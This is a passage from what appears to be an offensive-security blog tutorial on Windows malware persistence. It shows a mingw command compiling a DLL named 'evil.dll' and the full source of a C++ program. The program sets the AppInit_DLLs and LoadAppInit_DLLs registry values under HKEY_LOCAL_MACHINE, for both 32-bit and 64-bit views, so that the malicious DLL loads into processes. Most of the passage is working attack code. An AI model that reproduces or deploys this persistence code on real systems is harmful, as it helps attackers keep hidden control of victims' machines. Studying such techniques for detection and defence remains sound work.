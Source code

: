 Let's go to compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/55/2022-05-16_01-21.png){:class="img-responsive"}    

Then simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `evil.dll` will be loaded.

For this create another app `pers.cpp`:

```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```
